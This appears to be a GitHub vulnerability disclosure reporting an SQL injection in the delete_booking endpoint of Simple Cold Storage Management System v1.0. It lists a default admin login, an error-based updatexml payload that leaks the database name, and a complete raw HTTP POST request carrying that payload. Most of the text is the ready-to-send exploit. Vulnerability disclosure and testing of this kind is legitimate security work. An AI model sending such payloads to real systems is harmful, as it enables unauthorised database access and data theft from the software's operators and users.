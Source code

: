# Simple Cold Storage Management System v1.0 by oretnom23 has SQL injection

BUG_Author: oner

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15088/simple-cold-storage-management-system-using-phpoop-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /csms/classes/Master.php?f=delete_booking

Vulnerability location: /csms/classes/Master.php?f=delete_booking, id

dbname =csms_db,length=7

[+] Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id

```sql
POST /csms/classes/Master.php?f=delete_booking HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/csms/admin/?page=bookings
Content-Length: 65
Cookie: PHPSESSID=d8pesjl7i2jtmf2qddggbp7q0b
Connection: close

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/191014269-11863d30-af67-41c5-ace4-b38d15988785.png)
